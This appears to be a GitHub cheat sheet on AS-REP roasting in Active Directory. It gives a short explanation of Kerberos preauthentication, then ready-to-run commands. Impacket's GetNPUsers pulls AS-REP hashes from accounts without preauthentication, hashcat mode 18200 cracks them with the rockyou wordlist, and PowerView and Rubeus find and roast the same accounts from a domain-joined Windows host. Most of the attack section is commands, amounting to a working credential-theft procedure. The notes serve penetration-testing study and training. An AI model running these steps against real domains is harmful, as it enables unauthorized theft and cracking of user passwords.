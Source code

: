 # AS-REP Roasting
**Kerberos preauthentication** [1](https://learn.microsoft.com/en-us/archive/technet-wiki/23559.kerberos-pre-authentication-why-it-should-not-be-disabled) is the process where a client sends an encrypted _timestamp_ (AS-REQ) to the domain controller to prove its identity. If valid, the domain controller responds with a session key and Ticket Granting Ticket (AS-REP).

![AD Herbros001](https://github.com/user-attachments/assets/fe2bf9f5-6b61-4d2f-81d9-33e465e2a477)


## **Perform AS-REP Roasting on Kali:**

1. **Command Syntax**: Use the following command to request the **TGT** (Ticket Granting Ticket) and capture the AS-REP hashes:
    
    ```bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -request -outputfile <output_file> <Domain/User>
    ```
- For no password
   ``` bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -no-pass -outputfile <output_file> <Domain/User>
   ```
- You have a list of users
  ``` bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -no-pass -usersfile <user.lst> -outputfile <output_file> <Domain/>
  ```
    Example:
``` shell
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
impacket-GetNPUsers -dc-ip 10.10.10.192  -no-pass -usersfile user.lst -outputfile hhsh blackfield/
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in Hashcat format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r rules/best64.rule --force
```
## AS-REP Roasting on Windows (joined domain):
###  Identify Users with Kerberos Preauthentication Disabled on joined windows machine 
First, we run the PowerView `Get-DomainUser` command with the `-PreauthNotRequired` option to find users who have Kerberos preauthentication disabled:
```powershell
Get-DomainUser -PreauthNotRequired
```
By using use _Rubeus_,[4](https://github.com/GhostPack/Rubeus)
Compiled Version [->](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/tree/main/Tools)

``` powershell
.\Rubeus.exe asreproast /nowrap
```
#### On BloodHound we Discover it as:
![image](https://github.com/user-attachments/assets/aab7c819-2b90-464d-af8e-7b947d8cd596)




